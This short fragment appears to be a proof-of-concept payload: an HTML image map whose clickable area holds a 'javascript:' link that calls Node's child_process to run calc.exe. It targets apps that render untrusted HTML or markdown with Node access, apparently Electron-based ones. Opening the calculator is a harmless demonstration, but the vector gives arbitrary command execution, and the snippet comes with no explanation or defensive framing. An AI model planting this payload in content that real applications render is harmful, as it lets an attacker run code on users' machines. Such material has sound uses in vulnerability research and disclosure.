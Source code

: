 <map name="test"><area coords="0,0,1000,1000" href="javascript:top.require(`child_process`).execSync(`calc.exe`)"></map><img usemap="#test" src="https://github.com/Ry0taK.png">